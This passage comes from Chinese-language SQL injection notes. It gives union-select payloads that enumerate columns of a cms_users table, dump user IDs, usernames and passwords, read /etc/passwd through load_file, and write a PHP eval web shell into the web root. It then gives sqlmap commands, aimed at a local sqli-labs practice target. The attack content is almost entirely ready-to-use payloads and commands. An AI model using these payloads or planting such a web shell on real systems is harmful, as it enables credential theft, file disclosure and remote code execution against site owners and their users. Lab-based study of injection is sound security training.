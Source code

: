 ## 6. 爆columns列表

``` sql
?id=-33 union select 1,2,binary(group_concat(column_name)),4,5,6,7,8,9,10,11,12,13,14,15 from information_schema.columns where table_name='cms_users'
```

## 7. 爆相关column内容

``` sql
?id=-33 union select 1,2,binary(group_concat(userid,' ',username,' ',password)),4,5,6,7,8,9,10,11,12,13,14,15 from cms_users
```

## 8. 读取本地文件

``` sql
?id=-33 union select 1,2,load_file('/etc/passwd'),4,5,6,7,8,9,10,11,12,13,14,15
```

## 9. 写入反弹shell

``` sql
?id=-33 union select 1,2,'<?php @eval($_POST[gt]);?>',4,5,6,7,8,9,10,11,12,13,14,15 into outfile '/var/www/html/gt.php'
```

# sqlmap注入

## 1. [GET]单个参数

``` sql
sqlmap.py -u http://127.0.0.1/sqli-labs/sqli-labs/Less-1/?id=1
```

## 2. [GET]多个参数

``` sql
#指定参数
sqlmap.py -u "http://127.0.0.1/sqli-labs/sqli-labs/Less-1/?id=1&cc=1"
-p "id"
```

## 3. [GET]多个URL

``` sql
sqlmap.py -m 文本文件
选Y，对此URL注入测试；选n，自动进行下一个；选择q，退出探测。
```

## 4. [POST]burp提取HTTP请求生成文件
